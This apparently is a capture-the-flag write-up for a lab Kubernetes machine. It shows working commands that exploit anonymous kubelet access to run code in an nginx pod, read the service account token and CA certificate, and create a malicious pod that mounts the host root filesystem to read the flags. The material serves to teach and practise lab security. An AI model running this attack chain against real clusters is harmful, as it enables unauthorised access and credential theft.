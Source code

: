 # SteamClout - Linux, easy (10.10.11.133)

# Enumeration
```
PORT      STATE SERVICE
22/tcp    open  ssh
2379/tcp  open  etcd-client
2380/tcp  open  etcd-server
8443/tcp  open  https-alt
10249/tcp open  unknown
10250/tcp open  unknown
10256/tcp open  unknown
```

On port 2379 and 2380 we have **etcd**, which is a **kubernetes** component, where in the first port we have a client and in the second a server.
**Kubelet**, a kubernetes extension listen on port 10250 by default, and the kubernetes API listens on port 8443.

Note that if we visit the HTTP version of the website, we receive the following message: `Client sent an HTTP request to an HTTPS server.`, so in order to access the content of the websites we need to use HTTPS.

We can check the Kubernetes API on port 8443 with: `curl https://10.10.11.133:8443/ -k`:
```
{
  "kind": "Status",
  "apiVersion": "v1",
  "metadata": {
    
  },
  "status": "Failure",
  "message": "forbidden: User \"system:anonymous\" cannot get path \"/\"",
  "reason": "Forbidden",
  "details": {
    
  },
  "code": 403
}
```

But as the output shows, we cannot access the home path without authenticating, so let's continue on to the Kubelet service, which is listening at port 10250, `curl https://10.10.11.133:10250/pods -k`:
```
"kind":"PodList","apiVersion":"v1","metadata":{},"items":[{"metadata":{"name":"storage-provisioner","namespace":"kube-system","uid":"bfb42524-
3853-41cd-a814-667ac23423c9","resourceVersion":"402","creationTimestamp":"2022-08-20T11:58:29Z","labels":{"addonmanager.kubernetes.io/mode":"Re
concile","integration-test":"storage-provisioner"},"annotations":{"kubectl.kubernetes.io/last-applied-configuration":"{\"apiVersion\":\"v1\",\"
kind\":\"Pod\",\"metadata\":{\"annotations\":{},\
...
```

We are able to extract all the pods from the k8s cluster.
This service has a lot of undocumented API, but fortunately, we can utilize [kubelectl](https://github.com/cyberark/kubeletctl) to interface with it and discover a means to get inside a pod.
Download and install kubelectl:
```
curl -LO https://github.com/cyberark/kubeletctl/releases/download/v1.8/kubeletctl_linux_amd64 && chmod a+x ./kubeletctl_linux_amd64 && mv ./kubeletctl_linux_amd64 /usr/local/bin/kubeletctl
chmod a+x ./kubeletctl_linux_amd64
mv ./kubeletctl_linux_amd64 /usr/local/bin/kubeletctl
```

Now we can use kubelectl to obtain all the pods with `kubelectl --server 10.10.11.133 pods`:
```
┌────────────────────────────────────────────────────────────────────────────────┐
│                                Pods from Kubelet                               │
├───┬────────────────────────────────────┬─────────────┬─────────────────────────┤
│   │ POD                                │ NAMESPACE   │ CONTAINERS              │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│ 1 │ kube-controller-manager-steamcloud │ kube-system │ kube-controller-manager │
│   │                                    │             │                         │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│ 2 │ kube-scheduler-steamcloud          │ kube-system │ kube-scheduler          │
│   │                                    │             │                         │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│ 3 │ storage-provisioner                │ kube-system │ storage-provisioner     │
│   │                                    │             │                         │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│ 4 │ kube-proxy-j9f5w                   │ kube-system │ kube-proxy              │
│   │                                    │             │                         │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│ 5 │ coredns-78fcd69978-lgl7z           │ kube-system │ coredns                 │
│   │                                    │             │                         │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│ 6 │ nginx                              │ default     │ nginx                   │
│   │                                    │             │                         │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│ 7 │ etcd-steamcloud                    │ kube-system │ etcd                    │
│   │                                    │             │                         │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│ 8 │ kube-apiserver-steamcloud          │ kube-system │ kube-apiserver          │
│   │                                    │             │                         │
└───┴────────────────────────────────────┴─────────────┴─────────────────────────┘
```

We already know that Nginx exists solely in the default namespace and is not a Kubernetes related pod. Because Kubernetes allows anonymous access, we may use the commands /run, /exec and /cri but Curl will not work because it only allows web socket connections.
But we can utilize the `scan rce` command provided by kubelectl to determine whether we can run command on any pods.
```
kali@kali:~$ kubelectl --server 10.10.11.133 scan rce
┌─────────────────────────────────────────────────────────────────────────────────────────────────────┐
│                                   Node with pods vulnerable to RCE                                  │
├───┬──────────────┬────────────────────────────────────┬─────────────┬─────────────────────────┬─────┤
│   │ NODE IP      │ PODS                               │ NAMESPACE   │ CONTAINERS              │ RCE │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│   │              │                                    │             │                         │ RUN │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│ 1 │ 10.10.11.133 │ nginx                              │ default     │ nginx                   │ +   │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│ 2 │              │ etcd-steamcloud                    │ kube-system │ etcd                    │ -   │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
...
```

So, commands can be executed on the Nginx pod, let's see if we can run command `id` within Nginx:
```
kali@kali:~$ kubelectl --server 10.10.11.133 exec "id" -p nginx -c nginx
uid=0(root) gid=0(root) groups=0(root)
```

The command executed successfully, however it seems that there is no user flag on this pod!

### Privesc
Now that we've successfully executed a command within the Nginx pod, let's see if we can get access to tokens and certificates so that we can create a service account with higher privileges:
```
kubeletctl --server 10.10.11.133 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx 
kubeletctl --server 10.10.11.133 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx
```

We can utilize the obtained token and certificate to log in to **Kubectl**(Kubernetes command-line tool, allows to run commands against Kubernetes clusters) and check which permissions we have.
Let's save the certification in a file (`ca.crt`) and export the token as an environmental variable (`export token="eyJhbGciOiJSUz..."`).
```
kali@kali:~$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.10.11.133:8443 get pods
NAME    READY   STATUS    RESTARTS   AGE
nginx   1/1     Running   0          35m
```

The default service account appears to have some basic rights, so let's list them all using `auth can-i`:
```
kali@kali:~$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.10.11.133:8443 auth can-i --list
Resources                                       Non-Resource URLs                     Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
pods                                            []                                    []               [get create list]
                                                [/.well-known/openid-configuration]   []               [get]
                                                [/api/*]                              []               [get]
                                                [/api]                                []               [get]
```

At this point, we can acquire, list, and create a pod in the default namespace!
To make a pod, we may use the nginx image, so, let's make a nefarious pod.
Save the following YAML configuration (YAML is a digestible data serialization language often used to create configuration files with any programming language) inside a file called `f.yaml`:
```
apiVersion: v1
kind: Pod
metadata:
  name: nginxt
  namespace: default
spec:
  containers:
  - name: nginxt
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

We're using the same Nginx image and mounting the host file system within the container so we can access it. We can use Kubelectl to run commands withing the pod once we've create it. Let's try applying the configuration and listing to see if our newly generated pod is up and running:
```
kali@kali:~$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.10.11.133:8443 apply -f f.yaml 
pod/nginxt created

kali@kali:~$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.10.11.133:8443 get pods
NAME     READY   STATUS    RESTARTS   AGE
nginx    1/1     Running   0          43m
nginxt   1/1     Running   0          60s
```

Our pod is up and running, so now we can proceed to grab both the user and root flags:
```
kubelectl --server 10.10.11.133 exec "cat /root/home/user/user.txt" -p nginxt -c nginxt

kubelectl --server 10.10.11.133 exec "cat /root/root/root.txt" -p nginxt -c nginxt
```
